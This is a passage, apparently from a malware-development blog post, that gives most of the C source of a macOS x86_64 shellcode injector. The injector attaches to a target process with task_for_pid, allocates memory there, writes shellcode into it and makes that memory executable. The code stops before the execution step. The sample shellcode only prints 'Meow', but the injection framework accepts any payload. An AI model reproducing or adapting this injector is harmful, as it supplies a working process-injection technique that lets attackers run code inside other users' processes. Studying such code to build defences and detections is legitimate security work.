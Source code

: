 It's compact and self-contained, perfect for this type of PoC.    

So, full source code of our injector:     

```cpp
/*
 * hack.c
 * macOS x86_64 shellcode injection
 * via task for pid
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/19/malware-mac-9.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <mach/mach.h>
#include <mach/thread_act.h>
#include <mach/mach_vm.h>
#include <mach/thread_status.h>

unsigned char shellcode[] =
  "\x48\xb8\x4d\x65\x6f\x77\x0a\x00\x00\x00"
"\x50\xbf\x01\x00\x00\x00"
"\x48\x89\xe6\xba\x05\x00\x00\x00"
"\xb8\x04\x00\x00\x02\x0f\x05"
"\xb8\x01\x00\x00\x02\x48\x31\xff\x0f\x05";

int main(int argc, char *argv[]) {
  if (argc != 2) {
    fprintf(stderr, "usage: %s <pid>\n", argv[0]);
    return 1;
  }

  pid_t pid = atoi(argv[1]);
  task_t task;
  kern_return_t kr = task_for_pid(mach_task_self(), pid, &task);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] task_for_pid() failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] attached to pid %d\n", pid);

  mach_vm_address_t remote_addr = 0;
  kr = mach_vm_allocate(task, &remote_addr, sizeof(shellcode), VM_FLAGS_ANYWHERE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_allocate failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] allocated memory at 0x%llx\n", remote_addr);

  kr = mach_vm_write(task, remote_addr, (vm_offset_t)shellcode, sizeof(shellcode));
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_write failed: %s\n", mach_error_string(kr));
    return 1;
  }
  printf("[+] wrote shellcode\n");

  // make memory RX
  kr = mach_vm_protect(task, remote_addr, sizeof(shellcode), FALSE, VM_PROT_READ | VM_PROT_EXECUTE);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] mach_vm_protect failed: %s\n", mach_error_string(kr));
    return 1;
  }
```